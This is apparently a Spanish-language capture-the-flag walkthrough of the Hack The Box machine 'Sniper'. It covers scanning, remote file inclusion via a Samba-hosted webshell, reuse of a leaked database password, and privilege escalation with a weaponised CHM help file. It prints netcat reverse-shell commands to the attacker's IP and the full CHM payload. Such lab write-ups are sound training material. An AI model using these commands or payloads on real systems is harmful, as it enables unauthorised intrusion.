




Hack The Box - Sniper

Contenido
| Nombre | Sniper |
|---|---|
| OS | Windows |
| Puntos | 30 |
| Dificultad | Media |
| IP | 10.10.10.151 |
| Maker | MinatoTW & [felamos ][] |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y servicios con masscan y nmap.
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-01-15 18:34:38 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.151
Discovered open port 135/tcp on 10.10.10.151
Discovered open port 49667/tcp on 10.10.10.151
Discovered open port 139/tcp on 10.10.10.151
# Nmap 7.80 scan initiated Wed Jan 15 12:30:50 2020 as: nmap -p- --min-rate 1000 -sV -sC -o nmap_scan 10.10.10.151
Nmap scan report for 10.10.10.151
Host is up (0.24s latency).
Not shown: 65530 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
49667/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 8h01m11s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-01-16T02:36:27
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 15 12:35:53 2020 -- 1 IP address (1 host up) scanned in 303.66 seconds
HTTP
En el puerto 80 corriendo IIS con una pagina web.

GOBUSTER
Escaneo de directorios y archivos con gobuster.
root@aoiri:~/htb/sniper# gobuster dir -u http://10.10.10.151/ -w /usr/share/wordlists/dirb/common.txt -t 15 -x asp,aspx,php,html,txt -q
/Blog (Status: 301)
/blog (Status: 301)
/css (Status: 301)
/images (Status: 301)
/Images (Status: 301)
/index.php (Status: 200)
/Index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/user (Status: 301)
/blog/
root@aoiri:~/htb/sniper# gobuster dir -u http://10.10.10.151/blog/ -w /usr/share/wordlists/dirb/common.txt -t 15 -x asp,aspx,php,html,txt -q
/css (Status: 301)
/error.html (Status: 200)
/header.html (Status: 200)
/Index.php (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301
/user/
root@aoiri:~/htb/sniper# gobuster dir -u http://10.10.10.151/user/ -w /usr/share/wordlists/dirb/common.txt -t 15 -x asp,aspx,php,html,txt -q
/auth.php (Status: 302)
/css (Status: 301)
/db.php (Status: 200)
/DB.php (Status: 200)
/fonts (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.php (Status: 302)
/Index.php (Status: 302)
/index.php (Status: 302)
/js (Status: 301)
/login.php (Status: 200)
/Login.php (Status: 200)
/logout.php (Status: 302)
/registration.php (Status: 200)
/vendor (Status: 301)
Encontramos dos rutas distintas donde estan almacenadas dos paginas diferentes, una donde se muestra un panel de inicio de sesion y la otra nos muestra una pagina con algunos articulos.
/user/

/blog/

LFI-RFI -> Shell IUSR
En la pagina de /blog/ encontramos que, al cambiar de idioma se le pasa como parametro un archivo existente a lang, a la pagina.

Al realizar una consulta/archivo que no exista en la maquina nos muestra un mensaje de error, esto quiere decir que debe de existir el archivo en la maquina.

Intentamos todos los payloads que pudiesen afectar a esta vulnerabilidad pero ninguno funciono, por lo que para explotar esta vulnerabilidad utilizamos un servidor SAMBA para pasarle como parametro una webshell desde nuestra maquina.
Configuracion de Servidor SAMBA:
apt-get install samba
mkdir /var/www/html/pub/
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
touch > /etc/samba/smb.conf
/etc/samba/smb.conf:
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes
[test]
path = /var/www/html/pub
writable = yes
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
service smbd restart
Acceder a:
\\10.10.10.10\test\
La webshell que utilizamos es WhiteWinterWolf - Webshell. Una vez terminado nuestra configuracion le pasamos a la pagina nuestra IP junto con el SHARENAME y la webshell, y logramos ejecuar comandos con el usuario IUSR.

Ahora que podemos ejecutar comandos vamos a obtener una shell inversa utilizando netcat (nc.exe) en la misma carpeta donde colocamos nuestra webshell. Utilizamos el siguiente comando:
\\10.10.15.244\test\nc.exe -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 10.10.15.244 443

Obtenemos una shell con el usuario IUSR.
USER - Chris
Enumeramos los archivos que se encuentran en ambas paginas (blog, user) y encontramos en user un archivo de php en el que se encuentran las credenciales para la base de datos.

Credenciales:
Host, User, Password, DB
"localhost","dbuser","36mEAhz/B8xQ~2VM","sniper"
Dentro de las carpetas de Usuarios (C:\Users) encontramos a Chris como uno de los usuarios, utilizamos la contraseña de la base de datos con el usuario Chris para verificar que tenga permisos de escritura en la maquina atraves de samba con smbmap.
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.151...
[+] IP: 10.10.10.151:445 Name: 10.10.10.151
Disk Permissions Comment
---- ----------- -------
ADMIN$ NO ACCESS Remote Admin
C$ NO ACCESS Default share
.
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 InitShutdown
fr--r--r-- 4 Sun Dec 31 17:57:56 1600 lsass
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 ntsvcs
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 scerpc
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-368-0
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 epmapper
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-1e4-0
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 LSM_API_service
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 eventlog
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-408-0
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 atsvc
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-598-0
fr--r--r-- 4 Sun Dec 31 17:57:56 1600 wkssvc
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 spoolss
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-a2c-0
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 trkwks
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 W32TIME_ALT
fr--r--r-- 4 Sun Dec 31 17:57:56 1600 srvsvc
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 vgauth-service
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-270-0
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 Winsock2\CatalogChangeListener-284-0
fr--r--r-- 3 Sun Dec 31 17:57:56 1600 ROUTER
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132236907993416575.1908.DefaultAppDomain.powershell
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 iisipmbed63cd4-5a7a-4011-8a3f-7ca5d2834ac3
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 iislogpipe3e6fd272-542c-4985-87e5-bd930a7401e4
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132237251159401733.1252.DefaultAppDomain.powershell
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132237268742138566.1496.DefaultAppDomain.wsmprovhost
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 IISFCGI-3e6bfe08-4ed8-4e32-97ff-7c49438ccb63
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 IISFCGI-0587ff21-c423-47bb-872e-34f067d827a9
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132237302290243128.4168.DefaultAppDomain.powershell
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132237304828945308.4400.DefaultAppDomain.powershell
fr--r--r-- 1 Sun Dec 31 17:57:56 1600 PSHost.132237305109360308.5580.DefaultAppDomain.wsmprovhost
IPC$ READ ONLY Remote IPC
Vemos que Chris tiene permisos de escritura y lectura en (.) la maquina. Intentamos utilizar smbclient y los modulos de metasploit para samba pero ninguno de ellos sirvio para obtener una shell. Por lo que utilizamos la misma tecnica que utilizamos con la maquina Arkham de HackTheBox en la que utilizamos las credenciales para obtener una sesion nueva utilizando powershell.
$username ="Sniper\Chris";
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password;
New-PSSession -Credential $cred | Enter-PSSession
Al ejecutar estos comandos nos muestra una shell en localhost con el usuario Chris, pero, no podemos saltar hacia otras carpetas.

Para obtener una shell con el usuario Chris utilizamos el mismo comando que utilizamos para obtener una shell con IUSR.
\\10.10.15.244\test\nc.exe -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 10.10.15.244 448
Obtenemos una shell y nuestra flag user.txt.

Privilege Escalation (CTF Like) - Malicious CHM file
Enumeramos los directorios de Chris, vemos un archivo chm el cual se encuentra en C:\Users\Chris\Downloads llamado instructions.chm.

Al abrirlo en Windows nos muestra un mensaje.
Pff... This dumb CEO always makes me do all the shitty work. SMH!
I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.

De igual forma encontramos una nota en C:\Docs y un PDF.

php for dummies-trial.pdf:

note.txt:
Hi Chris,
Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
Regards,
Sniper CEO.
Vemos claramente en la nota que, Chris debe de reparar los bugs que existen en la pagina, luego de eso realizar la documentacion (instructions.chm al parecer) y dejarlos en la misma carpeta que la nota.
Copiamos el archivo instructions.chm en C:\Docs y despues de un tiempo el archivo desaparece, por lo que asumimos que es eliminado o revisado por el CEO (“Administrador”).
Creamos un archivo CHM el cual contenga un comando para obtener una shell inversa, utilizamos “Microsoft HTML Help Workshop and Documentation” para generarlo.
Agregamos al archivo principal nuestro siguiente payload entre la etiqueta BODY:
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value=',cmd.exe,/c C:\Users\Chris\Documents\nc.exe 10.10.15.244 449 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'>
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
Trasladamos nuestro archivo a la carpeta C:\Docs, netcat (nc.exe) y esperamos a que nuestro payload sea ejecutado:

Obtenemos nuestra shell con permisos de administrador y nuestra flag root.txt.
